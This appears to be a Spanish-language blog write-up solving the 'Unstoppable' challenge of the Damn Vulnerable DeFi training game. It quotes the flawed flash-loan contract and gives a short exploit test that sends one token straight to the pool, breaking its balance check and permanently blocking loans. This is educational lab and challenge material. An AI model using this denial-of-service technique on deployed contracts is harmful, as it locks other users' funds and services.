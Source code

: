 ```yaml
---
title: Solucion al challenge \#1 Unstoppable
date: 2022-01-2
excerpt: Challenge; hay una lending pool con un millon de tokens DVT, estan ofreciendo flash loans gratis. Si tan solo existiera una forma de atacar la pool y detenerla... Comenzaras con 100 DVT tokens.
---
```


### Antes que nada que es un flash loan?

Un flash loan es un prestamo que se puede pedir a travez de un contrato sin la necesidad de poner un colateral. El funcionamiento es bastante sencillo, hay un contrato que contiene los tokens a ser prestados, mediante otro contrato se pide prestada la cantidad deseada, el contrato entrega los tokens y devuelve el control al contrato que hizo el prestamo, luego esos tokens se utilizan y se devuelven.

[Flash loans por binance academy](https://academy.binance.com/es/articles/what-are-flash-loans-in-defi)

# Cual es el problema con Unstoppable

Unstoppable es una pool que ofrece flash loans, el problema principal es que tiene un bug que permite a un usuario malicioso bloquear todos los tokens para siempre y que nadie mas pueda pedir un prestamo.

El problema esta en la linea 40 del contrato *UnstoppableLender.sol* donde hace este require `assert(poolBalance == balanceBefore);` 

[UnstoppableLender.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/unstoppable/UnstoppableLender.sol#L40)
```js
  // Function para pedir el flashloan contrato UnstoppableLender.sol
  function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);
    
    damnValuableToken.transfer(msg.sender, borrowAmount);
    
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
    
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
  }
```

## Vector de ataque

Este tipo de ataque se los conoce como [*DoS* _denial of service_](https://consensys.github.io/smart-contract-best-practices/known_attacks/#dos-with-unexpected-revert)

Para ejecutar este ataque solo basta con enviar un token DVT al lending pool, de esta forma la variable `poolBalance` jamas sera igual a `balanceBefore`, esto se debe a que la variable poolBalance cambia usando la funcion `deposit` y `balanceBefore` usa un `balanceOf`, en resumen, este contrato espera que solo depositen DVT tokens a travez de la funcion deposit y no tiene que encuenta que alguien podria transferir tokens DVT por que si.

## Exploit

Solo basta agregar esto en [unstoppable.challenge.js](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/unstoppable/unstoppable.challenge.js#L41)

```js
    it('Exploit', async function () {
        await this.token.connect(attacker).transfer(this.pool.address, "1");
    });
```

Luego correr el test;
```
$: npx hardhat test test/unstoppable/unstoppable.challenge.js

  [Challenge] Unstoppable
    ✓ Exploit


  1 passing (858ms)

```